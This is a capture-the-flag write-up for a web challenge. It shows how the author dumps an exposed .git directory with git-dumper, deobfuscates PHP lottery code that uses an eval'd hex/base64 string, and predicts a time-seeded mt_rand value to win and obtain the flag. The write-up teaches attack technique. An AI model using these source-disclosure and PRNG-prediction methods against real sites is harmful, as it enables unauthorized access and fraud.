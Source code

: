 # Web / Tenue de soirée requise

## Challenge (200 points)
Dans le fichier excel, une cible importante est liée à un lien vers une loterie. Cette loterie permet au gagnant d'accéder à une soirée VIP. Nous supposons que la cible sera présente à cet événement.
Nous devons gagner cette loterie afin de pouvoir prendre contact avec elle.

Bien commencer: Si nous parvenons à récupérer l'algorithme de génération de la loterie, nous pouvons gagner à coup sûr.

## Inputs
- Web site: `subscription.challenge.operation-kernel.fr`

## Solution
Web get redirected to https://subscription.challenge.operation-kernel.fr/public/

The website proposes a game where we need to guess a number of 10 digits to get the flag::

![game.png](./game.png)

We'd need the source code of the application to understand how the number is generated.

Looking for common directories that could be left, like src, source, .git, etc, we find out that `.git/` returns `403`: it is forbidden, but it exists !

Let's try to dump the `GIT` repo using `git-dumper`:
```shell
$ git-dumper https://subscription.challenge.operation-kernel.fr/.git repo
[-] Testing https://subscription.challenge.operation-kernel.fr/.git/HEAD [200]
[-] Testing https://subscription.challenge.operation-kernel.fr/.git/ [403]
[-] Fetching common files
[-] Fetching https://subscription.challenge.operation-kernel.fr/.git/description [200]
[-] Fetching https://subscription.challenge.operation-kernel.fr/.git/hooks/applypatch-msg.sample [200]
[-] Fetching https://subscription.challenge.operation-kernel.fr/.gitignore [403]
(...)
```

It works and we now have the source code for the application. Looking for what relates to the game:
```shell
$ find repo -name '*.php' | grep -i game
repo/app/Process/GameProcess.php
repo/app/Http/Controllers/GameController.php
repo/app/Http/Requests/GameRequest.php
```

`GameRequest.php` shows the expected format for the number: at least 10 digits:
```php
<?php
    public function rules()
    {
        return [
          'name' => 'required|min:3|max:20|alpha',
          'number' => 'regex:/^\d{10,}$/i'
        ];
    }
```

`GameController.php` shows that `GameProcess` function `play()` is called with submitted `name` and `number`:
```php
<?php
  public function postForm(GameRequest $request, GameProcess $gameprocess, TicketProcess $ticket){
    $t = $gameprocess->play($_POST['name'], $_POST['number']);
    $data = $t ? $ticket->generate($_POST['name']) : false ;
    return view("result")->with('res', $t)->with('data',$data);
  }
```

And finally, `GameProcess.php` shows quite some obfuscated code:
```php
<?php

namespace App\Process; class GameProcess { private function nmqrF($AvWAj) { goto NMXgZ; kv5ou: p1w0G: goto V_tm7; t4VRF: $tqGDw .= chr(hexdec($AvWAj[$VP0PR] . $AvWAj[$VP0PR + 1])); goto Fdr8h; GMqtF: $VP0PR += 2; goto VhseN; NMXgZ: $tqGDw = ''; goto X18sW; Fdr8h: GT1Ly: goto GMqtF; DZx0E: N4u_P: goto IzKaq; VhseN: goto p1w0G; goto DZx0E; IzKaq: return $tqGDw; goto RySOT; X18sW: $VP0PR = 0; goto kv5ou; V_tm7: if (!($VP0PR < strlen($AvWAj) - 1)) { goto N4u_P; } goto t4VRF; RySOT: } private function wCIA1($WepPf) { goto nf131; nf131: $SXEXN = ''; goto nr2M7; BsNwA: return $SXEXN; goto QOXZt; nr2M7: foreach (str_split($WepPf) as $COwbt) { $SXEXN .= ord($COwbt); WOo5D: } goto tRNjZ; tRNjZ: LQt0G: goto BsNwA; QOXZt: } private function kQzio($FwST2) { goto HUqWd; HUqWd: eval($this->nmqrF("6576616C286261736536345F6465636F646528274A485A50524870454944306764476C745A5367704943306764476C745A536770494355674E54733D2729293B")); goto ANV5w; f4E_x: return $G11Pq; goto ykALq; Yj9IR: $G11Pq = $G11Pq ^ $FwST2; goto f4E_x; ANV5w: $FwST2 = $FwST2 ^ $vODzD; goto KrQAb; hoFT1: $G11Pq = mt_rand(); goto Yj9IR; KrQAb: mt_srand($FwST2); goto hoFT1; ykALq: } public function play($su92R, $nmBvo) { goto u1lv6; xC0KB: return false; goto TeXZe; XU62G: return true; goto HquGL; HquGL: GxqFf: goto xC0KB; e4Wxp: $kx4Dd = $this->kQzio($FwST2); goto JYFjT; u1lv6: $FwST2 = $this->wCIA1($su92R); goto e4Wxp; JYFjT: if (!(intval($kx4Dd) === intval($nmBvo))) { goto GxqFf; } goto XU62G; TeXZe: } }
```

Let's cleanup the `play()` function:
```php
<?php
  public function play($su92R, $nmBvo)
  {
    goto u1lv6;
    xC0KB: return false;
    goto TeXZe;
    XU62G: return true;
    goto HquGL;
    HquGL: GxqFf: goto xC0KB;
    e4Wxp: $kx4Dd = $this->kQzio($FwST2);
    goto JYFjT;
    u1lv6: $FwST2 = $this->wCIA1($su92R);
    goto e4Wxp;
    JYFjT: if (!(intval($kx4Dd) === intval($nmBvo))) { goto GxqFf; } goto XU62G;
    TeXZe:
    }
```

Let's remove all the gibberish:
```php
<?php
  public function play($name, $number)
  {   
    $FwST2 = $this->wCIA1($name);
    $kx4Dd = $this->kQzio($FwST2);
    if (!(intval($kx4Dd) === intval($number))) { return false; } return true;
  }
```

So essentially what `play()` does is return `true` if `kQzio(wCIA1($name)) == $number`, else `false`. So what we can do is modify `GameProcess.php`, extend the `GameProcess` class, so we can call `kQzio(wCIA1('Thesee'))`. To make it easier, I also modified the `GameProcess` class functions from `private` to `public`:
```php
<?php

namespace App\Process; class GameProcess { public function nmqrF($AvWAj) { goto NMXgZ; kv5ou: p1w0G: goto V_tm7; t4VRF: $tqGDw .= chr(hexdec($AvWAj[$VP0PR] . $AvWAj[$VP0PR + 1])); goto Fdr8h; GMqtF: $VP0PR += 2; goto VhseN; NMXgZ: $tqGDw = ''; goto X18sW; Fdr8h: GT1Ly: goto GMqtF; DZx0E: N4u_P: goto IzKaq; VhseN: goto p1w0G; goto DZx0E; IzKaq: return $tqGDw; goto RySOT; X18sW: $VP0PR = 0; goto kv5ou; V_tm7: if (!($VP0PR < strlen($AvWAj) - 1)) { goto N4u_P; } goto t4VRF; RySOT: } public function wCIA1($WepPf) { goto nf131; nf131: $SXEXN = ''; goto nr2M7; BsNwA: return $SXEXN; goto QOXZt; nr2M7: foreach (str_split($WepPf) as $COwbt) { $SXEXN .= ord($COwbt); WOo5D: } goto tRNjZ; tRNjZ: LQt0G: goto BsNwA; QOXZt: } public function kQzio($FwST2) { goto HUqWd; HUqWd: eval($this->nmqrF("6576616C286261736536345F6465636F646528274A485A50524870454944306764476C745A5367704943306764476C745A536770494355674E54733D2729293B")); goto ANV5w; f4E_x: return $G11Pq; goto ykALq; Yj9IR: $G11Pq = $G11Pq ^ $FwST2; goto f4E_x; ANV5w: $FwST2 = $FwST2 ^ $vODzD; goto KrQAb; hoFT1: $G11Pq = mt_rand(); goto Yj9IR; KrQAb: mt_srand($FwST2); goto hoFT1; ykALq: } public function play($su92R, $nmBvo) { goto u1lv6; xC0KB: return false; goto TeXZe; XU62G: return true; goto HquGL; HquGL: GxqFf: goto xC0KB; e4Wxp: $kx4Dd = $this->kQzio($FwST2); goto JYFjT; u1lv6: $FwST2 = $this->wCIA1($su92R); goto e4Wxp; JYFjT: if (!(intval($kx4Dd) === intval($nmBvo))) { goto GxqFf; } goto XU62G; TeXZe: } }

class MyGameProcess extends GameProcess
{
  public function sol($name) {
    return $this->kQzio($this->wCIA1($name));
  }
}

/* Get the number */
$name = 'Thesee';
$mygameprocess = new MyGameProcess;
$number = $mygameprocess->sol($name);

/* Check the number */
$status = $mygameprocess->play($name, $number);
if ($status == true) { echo $number; }
```

Running the script in a loop shows the generated numbers, which seem to change every ~5sec:
```shell
$ while true; do php -f GameProcess.php; echo ''; sleep 1; done
84104099360367703
84104099360367703
84104099360367703
84104099360367703
84104099360367703
84104099587985052
84104099587985052
84104099587985052
84104099587985052
84104100437848060
84104100437848060
84104100437848060
84104100437848060
84104100437848060
84104100117506931
84104100117506931
84104100117506931
84104100117506931
84104100117506931
84104099686042309
84104099686042309
```

For the sake of completeness, we can confirm that by decoding the strange hex string:
```
    # nmqrF("6576616C286261736536345F6465636F646528274A485A50524870454944306764476C745A5367704943306764476C745A536770494355674E54733D2729293B");
    # eval(base64_decode('JHZPRHpEID0gdGltZSgpIC0gdGltZSgpICUgNTs='));
    # eval($vODzD = time() - time() % 5;);
```

Unfortunately, I wasn't able to validate the challenge, because of the short 5s delay... Apparently, I wasn't fast enough ;( Which is weird, because it seemed doable within 5s...

Anyway, after the CTF ended, I realized I could copy the output of my script to the clipboard using `xclip` and still run it in a loop as above. Doing so, I can reliably `paste` whatever in the clipboard:
```shell
$ while true; do php -f GameProcess.php | xclip -selection clipboard; done
```

And this works perfectly:

![qrcode.png](./qrcode.png)

And the QR code says: HACK{Y0uC4nNowG0toE4t}_Thesee

## PHP code
Complete solution in [GameProcess.php](./GameProcess.php)

## Flag
HACK{Y0uC4nNowG0toE4t}
